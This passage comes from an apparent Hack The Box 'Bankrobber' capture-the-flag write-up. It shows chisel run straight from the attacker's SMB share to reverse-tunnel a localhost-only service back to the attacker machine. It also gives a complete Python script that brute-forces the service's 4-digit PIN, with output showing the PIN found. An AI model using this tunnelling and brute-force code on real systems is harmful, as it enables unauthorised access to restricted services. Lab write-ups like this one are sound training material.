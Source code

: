 The pin is 4 digits so we've 10000 possible solutions. The best way to attack this issue is from our own machine, but the port is only availabble on localhost. For this we'll use chisel.

```bash
luc@kali:~/HTB/Bankrobber$ cp /opt/chisel-binaries/chisel_1.6.0_windows_amd64.exe .
luc@kali:~/HTB/Bankrobber$ sudo /opt/chisel-binaries/chisel_1.6.0_linux_amd64 server -p 9000 --reverse
```

We need to run chisel as sudo because we'll bind port 910.

```bash
C:\>\\10.10.14.16\share\chisel_1.6.0_windows_amd64.exe client 10.10.14.16:9000 R:910:127.0.0.1:910
```

```bash
luc@kali:~/HTB/Bankrobber$ nc 127.0.0.1 910
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 1234
 [!] Access denied, disconnecting client....
```

We now have our tunnel running and this allows us to run a python script on our machine that will brute force the pin.

```python
#!/usr/bin/python3

import socket
import sys

for i in range(10000):
  value = f"{i:04d}"
  print("Trying: ", value)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect(('127.0.0.1', 910))
  s.recv(4096)
  s.send(f"{value}\n".encode())
  r = s.recv(4096)
  print("Response: ", r)
  if not b"Access denied" in r:
    print("Success: ", value)
    break
  s.close
```

```bash
luc@kali:~/HTB/Bankrobber$ python3 bruteforce_pin.py
Trying:  0000
Response:  b' [!] Access denied, disconnecting client....\n'
Trying:  0001
Response:  b' [!] Access denied, disconnecting client....\n'
...
Trying:  0020
Response:  b' [!] Access denied, disconnecting client....\n'
Trying:  0021
Response:  b' [$] PIN is correct, access granted!\n --------------------------------------------------------------\n Please enter the amount of e-coins you would like to transfer:\n [$] '
Success:  0021
```
